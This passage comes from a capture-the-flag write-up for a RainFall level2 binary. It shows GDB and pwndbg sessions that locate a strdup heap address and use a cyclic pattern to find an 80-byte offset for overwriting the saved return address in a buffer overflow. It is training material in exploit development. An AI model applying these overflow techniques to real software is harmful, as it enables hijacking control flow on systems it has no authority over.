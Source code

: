 We print the value stored in the `eax` register in hexadecimal format to get the address returned by `strdup`, which is
the address we will use to overwrite the return address of `p`.

```shell
(gdb) p /x $eax
$2 = 0x804a008
```

## Calculating the Instruction Pointer Offset

[Pwndbg](https://github.com/pwndbg/pwndbg) is a Python module that adds useful utilities and enhancements to GDB and
LLDB, making these debuggers easier to use.
Inside we find `Pwn cyclic` which is a tool used to identify the exact location of a buffer overflow.

It works by generating a sequence of unique patterns, which can be inputted into a program. Once the buffer overflow is
achieved, the crash dump will contain part of this unique pattern. By analyzing the crash dump, we can pinpoint the
exact offset where the buffer overflow occurred.

```shell
...SNIP...
pwndbg> cyclic 90
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa
pwndbg> run
Starting program: /home/kali/rainfall/level2/level2 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawa

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────[ REGISTERS / show-flags off / show-compact-regs off ]───────
 EAX  0x804a9c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawa'
 EBX  0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
 ECX  0x5b
 EDX  0x804a9c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawa'
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x8048550 (__libc_csu_init) ◂— push ebp
 EBP  0x61616174 ('taaa')
 ESP  0xffffd200 ◂— 'vaaawa'
 EIP  0x61616175 ('uaaa')
...SNIP...
```

The register we are interested in is the EIP (Extended Instruction Pointer) register, which contains the address of the
next instruction to be executed. We see that the EIP register contains the value 'uaaa'. Using the cyclic -l command, we
can find the offset in the cyclic pattern that corresponds to this value. In this case, the offset is 80 bytes.
